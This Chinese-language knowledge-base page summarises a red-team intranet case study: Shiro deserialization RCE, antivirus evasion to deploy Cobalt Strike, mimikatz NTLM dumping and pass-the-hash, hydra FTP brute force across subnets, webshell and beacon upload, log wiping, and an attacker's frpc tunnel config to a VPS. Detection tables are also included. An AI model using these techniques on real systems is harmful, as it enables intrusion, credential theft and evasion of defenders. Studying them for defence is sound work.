

## 概述

本页面沉淀自火线 Zone 文章《某企业的Shiro内网渗透测试》（作者：小黑 / 黑总），记录一次从 **Shiro 反序列化 RCE (CVE-2016-4437 / CVE-2019-12409 等)** 获取初始立足点，经 **火绒 AV 免杀上线 Cobalt Strike**、**Windows Server 2019 NTLM 哈希导出与 Pass-the-Hash**、**FTP 服务大规模弱口令/凭证复用横向移动**（覆盖三个 /24 网段共 159 台主机），至 **发现前置攻击者遗留痕迹（qaxnb 文件夹、frp 客户端、后门程序、阿里云 VPS C2 基础设施）** 的完整实战攻击链。

> **核心价值**：展示了从 Web 入口到域内深度渗透的标准化红队作业流程，同时揭示**真实环境中常存在“前置攻击者”残留基础设施**的态势，强调渗透测试收尾时清理痕迹（代理、工具、账号）的必要性。

---

## 攻击链全景



---

## 0x01 初始访问：Shiro RCE → Cobalt Strike 落地

### 漏洞利用

- 目标系统运行 **Apache Shiro** 框架，存在 **反序列化远程代码执行**（Shiro 550 / 721 等通用利用链）。
- 利用工具链：`shiro_exploit.py` / `ysoserial` / `GadgetProbe` 等生成 Payload，直接在 HTTP Cookie `rememberMe` 中投递反序列化对象，获得 **System / Tomcat 服务账号权限** 的命令执行。

> **交叉引用**：Shiro 反序列化原理与利用链详见 [[java-preparedstatement-sql-injection-defense]] 中“反序列化 Gadget”相关章节；通用 Java 反序列化利用框架参考 [[xd-security-deserialization-xxe-notes-day37-39]]。

### 火绒 AV 免杀上线 Cobalt Strike

- 目标主机部署 **火绒安全**，直接执行 `cs.exe` / `beacon.exe` 会被查杀。
- **免杀策略**：
  1. **Shellcode 分离加载**：使用 `donut` / `pe2shc` 将 Beacon DLL 转换为位置无关 Shellcode，配合 **sRDI / 自定义 Loader** 反射式加载（避免落地 PE 文件）。
  2. **AMSI / ETW / WLDP 绕过**：Loader 中集成 `AmsiScanBuffer` Patch、`EtwEventWrite` Patch、`WldpQueryDynamicCodeTrust` Patch。
  3. **进程注入/迁移**：首选 `CreateRemoteThread` / `NtCreateThreadEx` 注入到 `spoolsv.exe` / `svchost.exe` 等高权限进程，或使用 **PPL (Protected Process Light) 绕过**技术注入 `WinTcb-Light` 级别进程（如 `wininit.exe`、`MsMpEng.exe`）规避内存扫描 —— 详见 [[ppl-injection-createprocess-bof-fix]]、[[windows-token-nerfing-pplguard-trusted-labels]]。
  4. **Malleable C2 Profile 流量混淆**：配置 `jitter`、`sleeptime`、`useragent`、`header` 等，模拟正常浏览器流量，结合 **重定向器 / CDN / 域名前置** 隐匿 Team Server —— 详见 [[c2-redirectors-malleable-c2-profiles]]、[[cobalt-strike-external-c2-smb-beacon]]。

> **工具链参考**：Inceptor 框架集成上述免杀模块（Shellcode 转换、OLLVM 混淆、Full Unhooking、Direct Syscalls 等），详见 [[inceptor-av-edr-evasion-framework]]。

---

## 0x02 凭证获取：Windows Server 2019 NTLM 导出与 Pass-the-Hash

### 环境约束

- Windows Server 2019 默认开启 **Credential Guard / LSA Protection (RunAsPPL)**，`sekurlsa::logonpasswords` **无法直接读取明文密码**。
- 但 **NTLM Hash 仍可从 LSASS 内存中提取**（需 `SeDebugPrivilege` + 绕过 LSA Protection）。

### 实战步骤

1. **提权至 SYSTEM**（若当前非 SYSTEM）：利用已知内核漏洞（如 CVE-2021-1732、CVE-2021-34527 PrintNightmare）或 **Token Impersonation**（`getsystem` / `token::elevate`）。
2. **绕过 LSA Protection**：
   - **Mimikatz `sekurlsa::pth`**：通过 **内存补丁** 修改 `LogonSessionList` 中目标会话的 `credentials` 指针，替换为攻击者控制的 NTLM Hash，实现 **Pass-the-Hash** —— 核心原理详见 [[mimikatz-sekurlsa-pth-internals]]。
   - 或使用 **PPL 绕过**（如 `PPLDump`、内核驱动）直接读取 LSASS 內存生成 minidump，再离线解析 —— 参考 [[ppldump-userland-ppl-bypass-evasion]]。
3. **导出 NTLM Hash**：`sekurlsa::logonpasswords` / `lsadump::lsa /patch` 获取目标用户（如 `admin`）的 **NTLM Hash**。
4. **Pass-the-Hash 登录**：
   - Cobalt Strike：`pth <user> <domain> <ntlm_hash>` → 生成高权限 Beacon。
   - Impacket：`psexec.py -hashes :<ntlm_hash> admin@<target>` / `wmiexec.py` / `atexec.py` —— 详见 [[xd-security-internal-network-penetration-notes-day65-66]]、[[xd-security-internal-network-penetration-notes-day67-68]]。

> **本案例结果**：成功获取 `admin` 用户 NTLM Hash，Pass-the-Hash 登录获得目标主机 **系统权限**。

---

## 0x03 纵向深化：本地敏感信息搜集

| 发现项 | 价值 |
|--------|------|
| `admin / admin123` (数据库/管理后台弱口令) | 横向移动凭证复用、数据库 UDF 提权、WebShell 写入 |
| 数据库连接配置文件 (JDBC URL/账号/密码) | 直连数据库、xp_cmdshell / UDF Getshell |
| 浏览器保存密码 / Cookie / 历史 | 云管理后台、VPN、GitLab 等二级系统访问 |
| SSH 私钥 / known_hosts | Linux 跳板机免密登录 |
| 内网拓扑文档 / 资产清单 / 运维脚本 | 快速定位高价值目标 |

> **同类案例对比**：[[listed-company-penetration-test-case-study]] 中同样通过浏览器凭证复用登录云管理后台；[[medical-system-internal-penetration-case-study]] 通过数据库凭证横向移动多系统。

---

## 0x04 横向移动：FTP 服务大规模凭证复用

### 网段划分与存活探测

| 网段 | 存活主机 | FTP 开放 | 获取权限数 |
|------|----------|----------|------------|
| 192.168.179.0/24 | ~200 | ~120 | **97** |
| 192.168.180.0/24 | ~180 | ~110 | **62** |
| 192.168.181.0/24 | — | — | — |

> 探测工具：`fscan` / `nmap -p 21 --open -T4` / Cobalt Strike `portscan` + `SOCKS4a` 代理（`proxychains` / `ProxyTool`） —— 详见 [[internal-network-pivoting-techniques]]、[[xd-security-internal-network-penetration-notes-day69-70]]。

### FTP 凭证获取来源

1. **前期渗透收集的弱口令字典**（`admin/admin`、`ftp/ftp`、`user/123456` 等）。
2. **数据库/配置文件/浏览器凭证**中复用的 FTP 账号密码。
3. **内网单点登录 / 统一身份认证**导致的凭证通用性。

### 批量利用与落地

- **工具**：`hydra -L users.txt -P pass.txt ftp://<target>` / `msf auxiliary/scanner/ftp/ftp_login` / 自定义 Python/Go 多线程爆破脚本。
- **落地动作**：
  - 上传 **WebShell / 反弹 Shell 脚本 / frpc / Cobalt Strike Beacon Loader** 至可写目录（`/var/www/html`、`C:\inetpub\wwwroot`、用户主目录）。
  - 利用 **计划任务 / 服务 / 启动项 / WMI / SMB / WinRM** 实现持久化与横向展开 —— 详见 [[xd-security-internal-network-penetration-notes-day67-68]]、[[smb-named-pipe-c2-communication]]、[[cobalt-strike-external-c2-smb-beacon]]。

> **规模效应**：单次行动控制 **159 台 FTP 主机**，形成大规模“跳板池”，为后续深度渗透（域控定位、核心业务系统）提供充足立足点。

---

## 0x05 威胁溯源：发现前置攻击者残留基础设施

### 关键痕迹清单

| 痕迹类型 | 具体表现 | 溯源价值 |
|----------|----------|----------|
| **qaxnb 文件夹** | 目录命名 `qaxnb`（谐音“奇安信牛B”） | 攻击者自我标识/嘲讽，指向特定团伙/个人 |
| **frp 客户端 (frpc) 及配置文件** | `frpc.ini` 含 `server_addr = <VPS_IP>`、`token`、`proxy` 映射规则 | 直接泄露 **C2 服务器公网 IP**、**隧道拓扑**、**端口映射关系** |
| **后门程序** | 定制化 Loader / WebShell / 计划任务脚本 | 可提取 **编译时间、PDB 路径、硬编码 C2 域名/IP、加密密钥** |
| **日志/临时文件** | `~/.bash_history`、`C:\Windows\Temp\*.tmp`、浏览器下载记录 | 还原攻击者操作时间线、工具链、跳板链路 |

### 溯源实战流程

1. **提取 frpc 配置**：
   ```ini
   [common]
   server_addr = 47.xx.xx.xx   # 阿里云 VPS 公网 IP
   server_port = 7000
   token = xxx
   [ssh_proxy]
   type = tcp
   local_ip = 127.0.0.1
   local_port = 22
   remote_port = 6000
   ```
2. **IP 归属查询**：使用 `ip138` / `微步在线` / `威胁情报平台` 确认为 **阿里云 ECS**（华东/华北地域）。
3. **关联分析**：
   - 历史攻击活动中该 IP 是否出现过（VT / PassiveTotal / FOFA / ZoomEye 历史解析记录）。
   - 同 IP 关联的域名、SSL 证书、端口开放情况（`nmap -sV -p- 47.xx.xx.xx`）。
   - 样本关联：将后门程序上传沙箱 / VT，查询同家族样本的 C2 基础设施重叠度。
4. **画像输出**：
   - **攻击者代号**：`qaxnb` / `黑总`（文中作者自称，实为红队演练视角的“前置攻击者”模拟）。
   - **基础设施**：阿里云 VPS + frp 反向隧道 + 定制化 Loader。
   - **战术偏好**：Web 入口 → 免杀上线 CS → 凭证导出 → FTP/ SMB 横向 → frp 隧道持久化。

> **防御侧建议**：
> - **网络层**：出站流量基线建模，告警异常长连接（frp/SSH/DNS/ICMP 隧道特征）—— 参考 [[iox-proxy-protocol-evasion]]、[[internal-network-pivoting-techniques#隧道技术对抗]]。
> - **主机层**：EDR 监控 `frpc.exe` / `frps.exe` 进程创建、命令行参数、网络连接；Sysmon Event ID 1/3/17/18 关联分析 —— 详见 [[named-pipe-smb-detection-sysmon]]、[[memory-scanning-tools-evasion-techniques]]。
> - **威胁情报**：将溯源 IOC（IP、域名、文件 Hash、PDB 路径、加密密钥）纳入 **威胁情报平台**，开展**历史回溯**与**实时阻断** —— 详见 [[0x6270-hvv-vulnerability-threat-intelligence]]、[[threat-attribution-tracing-techniques]]。

---

## 0x06 C2 基础设施对抗与隐匿技术总结

| 阶段 | 技术点 | 对抗目标 | 参考页面 |
|------|--------|----------|----------|
| **初始上线** | Shellcode 分离加载 (donut/pe2shc/sRDI) + 反射式加载 | AV 静态查杀、磁盘落地检测 | [[aceldr-technical-analysis]], [[inceptor-av-edr-evasion-framework]] |
| **免杀对抗** | AMSI/ETW/WLDP Patch + Full Unhooking + Direct Syscalls + OLLVM 混淆 | EDR 行为监控、API Hook、内存扫描 | [[inceptor-av-edr-evasion-framework]], [[memory-scanning-tools-evasion-techniques]] |
| **进程注入** | PPL 绕过 (WinTcb-Light) + 无句柄继承 CreateProcess (BOF) | 受保护进程注入拦截、管道输出机制冲突 | [[ppl-injection-createprocess-bof-fix]], [[windows-token-nerfing-pplguard-trusted-labels]] |
| **流量混淆** | Malleable C2 Profile (jitter/header/transform) + 重定向器/CDN/域名前置 | NIDS 流量特征匹配、Team Server 真实 IP 暴露 | [[c2-redirectors-malleable-c2-profiles]], [[cobalt-strike-external-c2-smb-beacon]] |
| **横向通道** | SMB Beacon (命名管道) + External C2 (SMB/HTTP/DNS) + frp/SSH/DNS/ICMP 隧道 | 防火墙拦截、横向流量审计、单一协议封锁 | [[smb-named-pipe-c2-communication]], [[cobalt-strike-external-c2-smb-beacon]], [[internal-network-pivoting-techniques]] |
| **会话传递** | CS ↔ MSF 双向会话移交 (`inject`/`spawn`/`execute-assembly`) | 单一 C2 框架能力局限、工具链割裂 | [[xd-security-internal-network-penetration-notes-day71-72]], [[listed-company-penetration-test-case-study]] |
| **痕迹清理** | 定时任务/服务/WMI/注册表/日志/预取文件/USN Journal/ETW 清理 | 事后取证、溯源定位、持久化残留 | [[threat-attribution-tracing-techniques]], [[xd-security-incident-response-notes]] |

---

## 0x07 实战经验与防御建议

### 红队视角：作业规范化清单

1. **入口阶段**：
   - 优先使用 **无文件/内存执行** 技术（BOF、RDI、Donut、.NET Assembly 加载）。
   - **Malleable C2 Profile 定制化**：每次行动生成唯一 Profile，避免通用特征被打标。
2. **立足阶段**：
   - **凭证导出最小化**：优先 `sekurlsa::pth` / `lsadump::dcsync`（无需触碰 LSASS 进程内存），降低 EDR 告警概率。
   - **代理隧道分层**：`SOCKS5 (frp/iox/venom) → HTTP/S (重定向器/CDN) → Team Server`，单点失效不暴露核心基建。
3. **横向阶段**：
   - **凭证复用自动化**：集成 `CrackMapExec` / `Ladon` / `SharpHound` / `BloodHound` 实现“凭证-主机-权限”图谱自动推演。
   - **活动目录攻击**：Kerberoasting / AS-REP Roasting / RBCD / Shadow Credentials / GPO Abuse / DCShadow —— 详见 [[xd-security-internal-network-penetration-notes-day67-68]]、[[mimikatz-source-code-architecture-golden-ticket-audit]]。
4. **收尾阶段（关键）**：
   - **全量清理清单**：
     - 删除所有上传文件（WebShell、Loader、frpc、脚本、压缩包）。
     - 移除创建的服务/计划任务/WMI 订阅/启动项/注册表 Run Key。
     - 清除 Windows 安全日志 / Sysmon 日志 / PowerShell Operational Log / RDP 缓存 / Prefetch / SRUM / USN Journal。
     - 断开所有 SOCKS/HTTP/SSH/frp 隧道，停止 Beacon，卸载 Loader。
     - 归还修改的配置文件（`frpc.ini`、Web.config、数据库连接串等）。
   - **痕迹清理验证**：使用 `kansa` / `Invoke-IR` / `Velociraptor` / `Hayabusa` 自动化采集并对比基线，确认无残留。

### 蓝队视角：检测与响应重点

| 检测层面 | 关键指标 | 工具/数据源 |
|----------|----------|-------------|
| **网络边界** | 异常长连接（>1h）、非业务端口出站、流量熵异常、JA3 指纹异常 | Zeek/Suricata/NetFlow/全流量回溯 |
| **主机端点** | LSASS 打开 `PROCESS_VM_READ`、`CreateRemoteThread` 跨进程、非签名 DLL 加载、AMSI/ETW Patch、计划任务/服务异常创建 | Sysmon (1/3/7/8/10/12/13/17/18/25)、EDR 行为引擎、Windows Defender ATP |
| **身份认证** | NTLM 认证异常（Pass-the-Hash 特征：Type 3 消息无 Type 1/2）、Kerberos TGS 请求异常 (Kerberoasting)、单账号多源 IP 登录 | AD 安全日志 (4624/4625/4768/4769/4770)、ATA/Defender for Identity |
| **文件系统** | 可执行文件写入 Web 目录 / Temp / 用户配置文件、双扩展名、图片马、Alternate Data Streams | 文件完整性监控 (FIM)、YARA 规则、沙箱动态分析 |
| **威胁情报** | IOC 命中（IP/域名/Hash/PDB/证书/特征字符串）、ATT&CK 技术标签聚类 | TIP 平台、MISP、OpenCTI、内部情报共享 |

> **应急响应流程参考**：[[xd-security-incident-response-notes]]（Day71-75 完整流程：溯源、取证、遏制、清除、复盘）。

---

## 0x08 相关知识库页面交叉引用索引

### 初始访问与免杀
- [[cobalt-strike-4.7-bof-internals]] — BOF 加载器内部实现与免杀相关新特性
- [[inceptor-av-edr-evasion-framework]] — 免杀框架全技术栈（Shellcode 转换、混淆、反注入、Direct Syscalls）
- [[aceldr-technical-analysis]] — PE 不落地执行技术体系（RDI、sRDI、Donut、Process Hollowing 等）
- [[ppl-injection-createprocess-bof-fix]] — PPL 进程注入与 CreateProcess 句柄继承绕过
- [[windows-token-nerfing-pplguard-trusted-labels]] — Token Nerfing 攻击与 PPLGuard 缓解机制

### 凭证获取与横向移动
- [[mimikatz-sekurlsa-pth-internals]] — sekurlsa::pth 内存补丁实现 Pass-the-Hash 底层原理
- [[mimikatz-source-code-architecture-golden-ticket-audit]] — Mimikatz 模块架构、黄金票据、sekurlsa 交叉引用
- [[xd-security-internal-network-penetration-notes-day65-66]] — 域环境信息收集、at/schtasks/impacket 横向移动
- [[xd-security-internal-network-penetration-notes-day67-68]] — SMB/WMI/Pass-the-Hash/Key/Ticket、Kerberos 委派、黄金/白银票据
- [[smb-named-pipe-c2-communication]] — SMB 命名管道 C2 通信原理与检测
- [[cobalt-strike-external-c2-smb-beacon]] — Cobalt Strike SMB Beacon 与 External C2 实战
- [[internal-network-pivoting-techniques]] — 代理隧道技术全景（Venom/Frp/SSH/CS SMB Beacon/iox/ptunnel/DNS 隧道等）

### C2 基础设施与流量对抗
- [[c2-redirectors-malleable-c2-profiles]] — 重定向器拓扑、Malleable C2 Profile 配置、域名前置/CDN
- [[iox-proxy-protocol-evasion]] — iox 协议握手、加密、随机 Padding、协议栈重构对抗沙箱
- [[named-pipe-smb-detection-sysmon]] — Sysmon Event ID 17/18 命名管道检测策略

### 威胁溯源与应急响应
- [[threat-attribution-tracing-techniques]] — 攻击溯源完整方法论（IP/邮件/样本/主机/流量）
- [[xd-security-incident-response-notes]] — 应急响应标准流程、日志分析、工具箱
- [[0x6270-hvv-vulnerability-threat-intelligence]] — HVV 期间漏洞威胁情报汇总
- [[0x6270-knowledge-planet-team]] — 0x6270 团队阵容与星球内容方向（文末推广来源）

### 同类实战案例对比
- [[listed-company-penetration-test-case-study]] — 上市公司渗透：文件上传 → CS/MSF 会话传递 → 提权 → frp → MSSQL 横向 → 浏览器凭证复用云后台
- [[medical-system-internal-penetration-case-study]] — 医疗系统：越权上传 → 凭证导出 → 横向移动 → 多系统权限 → 敏感数据泄露
- [[vulnhub-boredhackerblog-social-network-writeup]] — VulnHub 靶机：Web 注入 → Docker 逃逸 → 代理隧道 → ES 漏洞 → 密码破解 → SSH → 内核提权

---

## 0x09 结语

本案例展示了 **“Web 入口 → 免杀上线 → 凭证窃取 → 大规模 FTP 横向 → 前置攻击者溯源”** 的实战全链路，印证了以下红队铁律：

1. **初始访问只是开始**，免杀与内存执行是常态化生存能力。
2. **凭证复用是横向移动最高效路径**；FTP/SMB/RDP/WinRM/SSH 等服务的弱口令/凭证共用，往往能以极低成本撬开大面积内网。
3. **真实环境极少“干净”**，前置攻击者残留的 **frp、Cobalt Strike、定制后门、计划任务** 等基础设施，既是情报金矿，也是己方行动的**噪音源与风险面**——必须在行动前**全量资产梳理、存量痕迹清理**、行动中**基建隔离、流量混淆**、行动后**彻底清场、验证无残留**。
4. **威胁溯源能力直接转化为防御增益**：将攻击者 IOC、TTP、基础设施纳入威胁情报平台，可实现从“事后溯源”到“实时阻断、主动猎杀”的跃迁。

> **作者注（黑总 / 0x6270 合伙人）**：  
> “各位大佬测试内网时一定要将内网测试的代理以及各种工具删干净，以免后患啊！！！” —— 此话虽朴素，实为红蓝对抗生存法则的核心注脚。

---

## 附录：文中涉及核心工具/项目链接

| 工具/项目 | 用途 | 备注 |
|-----------|------|------|
| **Cobalt Strike** | C2 框架、Beacon 生成、Malleable Profile、SMB Beacon、External C2 | 商业工具，红队标配 |
| **Mimikatz** | 凭证导出、Pass-the-Hash、黄金票据、DCSync | `sekurlsa::pth` / `lsadump::dcsync` 核心模块 |
| **frp (Fast Reverse Proxy)** | 反向代理、内网穿透、SOCKS5/HTTP 隧道 | 前置攻击者遗留 `frpc` 及配置文件 |
| **Inceptor** | AV/EDR 免杀框架（Shellcode 转换、OLLVM、Direct Syscalls、Full Unhooking） | 开源免杀工具链 |
| **donut / pe2shc / sRDI** | PE/Shellcode 转换与反射式加载 | 不落地执行核心组件 |
| **Impacket (psexec/wmiexec/atexec/smbexec)** | 基于 SMB/WMI 的横向移动与命令执行 | Python 实现，无需落地二进制 |
| **CrackMapExec / Ladon / SharpHound / BloodHound** | 凭证喷射、横向自动化、AD 攻击面绘图 | 红队自动化必备 |
| **iox** | 加密握手、随机 Padding、多路复用、协议栈重构的流量对抗型代理 | 对抗沙箱/流量分析 |
| **Sysmon / Windows Event Log / ETW** | 主机行为审计、检测规则编写数据源 | 蓝队监控基石 |
| **Velociraptor / Kansa / Invoke-IR / Hayabusa** | 自动化取证、痕迹清理验证、日志分析 | 应急响应工具箱 |

---

*页面维护者：知识库策展人*  
*最后更新：2024-01-15*  
*数据来源：火线 Zone 文章《某企业的Shiro内网渗透测试》（作者：小黑/黑总）*

## 来源

- [0x6270安全团队-202203-202304_40](../sources/0x6270安全团队-202203-202304_40.md)
